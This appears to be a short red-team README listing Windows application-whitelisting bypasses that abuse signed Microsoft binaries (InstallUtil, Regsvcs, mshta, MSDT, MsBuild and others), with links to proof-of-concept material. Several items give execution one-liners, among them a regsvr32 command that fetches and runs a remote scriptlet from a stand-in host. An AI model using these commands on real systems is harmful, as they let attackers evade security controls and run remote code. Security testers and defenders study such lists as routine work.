 Version .0.0.3
```
1. IEExec -This technique may work in certain environments.  Its relies on the fact that many organizations trust executables signed
by Microsoft.  We can misuse this trust by launching a specially crafted .NET application. 
Example Here: https://room362.com/post/2014/2014-01-16-application-whitelist-bypass-using-ieexec-dot-exe/

2.  Rundll32.exe

3.  ClickOnce Applications dfsvc.exe dfshim.dll

4.  XBAP - XML Browser Applications WPF PresentationHost.exe

5.  MD5 Hash Collision 
http://www.mathstat.dal.ca/~selinger/md5collision/

6.  PowerShell - Specifically Reflective Execution
http://clymb3r.wordpress.com/2013/04/06/reflective-dll-injection-with-powershell/
https://www.defcon.org/images/defcon-21/dc-21-presentations/Bialek/DEFCON-21-Bialek-PowerPwning-Post-Exploiting-by-Overpowering-Powershell.pdf

7. .HTA Application Invoke PowerShell Scripts
    Launched by mshta.exe, bypasses IE security settings as well.

8.  bat, vbs, ps1
    1. cmd.exe /k < script.txt
    2. cscript.exe //E:vbscript script.txt
    3. Get-Content script.txt | iex
    
9. Malicious Troubleshooting packs - MSDT.exe
    Reference: http://cybersyndicates.com/2015/10/a-no-bull-guide-to-malicious-windows-trouble-shooting-packs-and-application-whitelist-bypass/
    Thanks to @nberthaume, @Killswitch_GUI 
    
10. InstallUtil.exe
    A signed MS binary that loads assemblies and executes - One of the best.
    Examples here: https://gist.github.com/subTee

11. Regsvcs/Regasm
    See: https://gist.github.com/subTee/fb09ef511e592e6f7993
    These 2 are Excellent.

12. regsvr32.exe 
    https://gist.github.com/subTee/24c7d8e1ff0f5602092f58cbb3f7d302
    This one is just simply amazing... 
    regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll

13. Msbuild.exe
    http://subt0x10.blogspot.com/2016/09/bypassing-application-whitelisting.html
```

